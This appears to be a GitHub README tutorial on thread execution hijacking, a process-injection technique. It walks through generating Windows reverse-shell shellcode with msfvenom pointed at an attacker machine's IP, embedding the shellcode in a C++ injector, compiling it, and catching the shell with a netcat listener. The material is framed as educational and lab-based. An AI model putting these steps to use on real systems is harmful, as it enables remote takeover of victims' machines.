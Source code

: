 # SimpleTAI

writing these materials for myself and for educational purposes .i will write long explanetion about every line of code for better understanding ..

after reading the script and understaing its all for educational purposes. 

so what is thread access injection ? 

Thread execution hijacking is a method used to control a running thread in a process. It starts by opening access to a process, then allocating memory within the process, writing malicious code (payload) into the allocated memory, creating a new thread in the process and starting it with the malicious code. This will cause the code to take control of the thread.

we test the script by create a vm in my case is kali linux . 

in the console we type the command below

```
ifconfig
```
then take the vm ip we want to use has a "hacker" machine

```
eth: flags=8908<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 2938
	options=3<RXCSUM,TXCSUM>
	ether xx:xx:xx:xx:xx:xx 
	inet xx.xx.xxx.xx netmask 0xfff0 broadcast xx.xx.xx.xx
```

i choose to use this exploit for the reverseshell , of course you can choose any 

```
msfvenom -p windows/×64/shell_reverse_tc LHOST=xx.xx.xxx.xx LPORT=4444 -f c
```
then we have the shell code 

and we will insert it to ``` shellcode[] = {`here`}```

![Screenshot 2023-01-24 at 10 50 42](https://user-images.githubusercontent.com/122444563/214353717-a4f88edd-6681-48d0-bb67-f75a74b88bd6.png)


once we have the script has it shown in screenshot above 
we will change the filemode for .exe 

```cl /Tc <filename>.cpp```

change back to the vm and listen to the port we specify 
```nc -nlvp 4444```






